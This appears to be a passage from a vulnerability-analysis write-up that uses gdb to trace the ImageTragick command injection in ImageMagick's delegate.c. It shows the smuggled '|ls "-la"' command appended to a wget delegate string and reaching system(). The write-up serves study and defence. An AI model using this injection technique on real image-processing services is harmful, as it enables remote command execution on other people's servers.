 
So that `gdb` can run the `convert` binary successfully, need to recreate the environment before launching `gdb`.

    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities# LD_LIBRARY_PATH="/root/Downloads/ImageMagick-6.9.2-10/magick/.libs:/root/Downloads/ImageMagick-6.9.2-10/wand/.libs:$LD_LIBRARY_PATH"
    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities/.libs# export LD_LIBRARY_PATH

Now in the `.libs` directory:

    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities# cd .libs
    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities/.libs# ls
    animate  compare  composite  conjure  convert  display  identify  import  mogrify  montage  stream


With everything in place, are ready to start `gdb`:

    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities/.libs# gdb convert
    gdb-peda$ break main
    Breakpoint 1 at 0x1299: file utilities/convert.c, line 92.
    gdb-peda$ r /root/git/PoCs/exploit.mvg /root/git/PoCs/exploit.png
    Breakpoint 1, main (argc=0x3, argv=0xffffd294) at utilities/convert.c:92
    92	  return(ConvertMain(argc,argv));


Now the main break has been hit, can set breaks on modules that have been dynamically linked, like the `ExternalDelegateCommand` where delegate commands (which is a large part of the vulnerability lies):

    gdb-peda$ break ExternalDelegateCommand
    Breakpoint 2 at 0xf7ca12c6: file magick/delegate.c, line 367.
    gdb-peda$ c

From looking at the source code earlier, found line 402 in `delegate.c` is where the `system()` call gets invoked for the delegate command, like this:

    status=system(sanitize_command);

I'll try to break on that specific line:

    gdb-peda$ break delegate.c:402
    Breakpoint 3 at 0xf7ca149b: file magick/delegate.c, line 404.
    gdb-peda$ c
    Breakpoint 3, ExternalDelegateCommand (asynchronous=MagickFalse, verbose=MagickFalse, 
        command=0x565fcae0 "\"wget\" -q -O \"/tmp/magick-16728_BYEqAKAG7Qu\" \"https://localhost/sp1017.jpg\"|ls \"-la\"",     message=0x0, exception=0x5658b9c8)
        at magick/delegate.c:404
    404	  if ((asynchronous != MagickFalse) ||

Success! In `gdb` I get `peda` to dump the memory around the stack pointer, which shows the `sanitize_command` variable that is passed into `system`. As shown it doesn't look so sanitzed, with the `"|ls "-la` tacked on the back of the buffer. 


    [------------------------------------stack-------------------------------------]
    0000| 0xfffe35f0 --> 0xf7ffd000 --> 0x28f2c 
    0004| 0xfffe35f4 --> 0xf7c313c0 --> 0x675f5f00 ('')
    0008| 0xfffe35f8 --> 0x5655a014 --> 0x707 
    0012| 0xfffe35fc --> 0xf79b050a (<__close+42>:	cmp    eax,0xfffff000)
    0016| 0xfffe3600 --> 0x7 
    0020| 0xfffe3604 --> 0xf7c2b2f0 --> 0x290f 
    0024| 0xfffe3608 --> 0x5655b4c0 --> 0x0 
    0028| 0xfffe360c --> 0x565f2600 ("\"wget\" -q -O \"/tmp/magick-16728_BYEqAKAG7Qu\" \"https://localhost/sp1017.jpg\"|ls \"-la\"")
